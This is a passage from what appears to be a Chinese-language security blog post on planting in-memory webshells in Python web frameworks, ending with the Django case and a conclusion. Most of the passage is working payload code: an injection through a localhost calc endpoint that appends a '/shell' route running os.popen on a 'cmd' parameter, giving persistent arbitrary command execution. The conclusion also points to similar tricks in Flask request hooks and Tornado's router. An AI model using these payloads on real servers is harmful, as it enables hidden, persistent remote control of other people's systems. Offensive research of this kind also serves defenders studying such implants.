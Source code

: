     ```python
    __import__(request.get_port.__globals__["settings"].ROOT_URLCONF).urls.urlpatterns
    ```

2. 调用path函数，返回一条新路由

    ```python
    __import__('django').urls.path('shell',lambda request: __import__('django').http.HttpResponse(__import__('os').popen(request.GET.get('cmd','id')).read()))
    ```

    > 当前场景下需要返回一个 `http.HttpResponse`，所以需要额外引入 `django` 来进行调用

3. 将新路由append到app.urlpatterns中实现内存马

    ```python
    http://localhost:8000/calc?expression=__import__(request.get_port.__globals__["settings"].ROOT_URLCONF).urls.urlpatterns.append(__import__('django').urls.path('shell',lambda request: __import__('django').http.HttpResponse(__import__('os').popen(request.GET.get('cmd','id')).read())))
    ```

### 4.5 结果

将构造好的payload发送后，便可通过访问 `/shell` 来实现任意命令执行。

 ![](/attachments/2024-07-10-python-web/1a1b8e25-60c7-48c2-a30d-4562a7c42b94.png)

## 五、总结

在刚开始寻找Python Web内存马资料的时候，发现除了Flask SSTI之外，找不到除了这个场景、框架之外的其他资料，或许确实在这个条件下的利用场景过于稀少，并且在有RCE的情况下更多的考虑也并不是获取一个webshell。

本文仅在最理想的场景下，简单探讨了一下在三个常见Python Web框架中种植内存马的方法，除了文中提到的思路还有一些其他的方法，比如可以在 `Flask` 中操作各种reqeust hook函数来实现，或者在 `Tornado` 直接操作 `wildcard_router`等，原理上来说都大同小异。
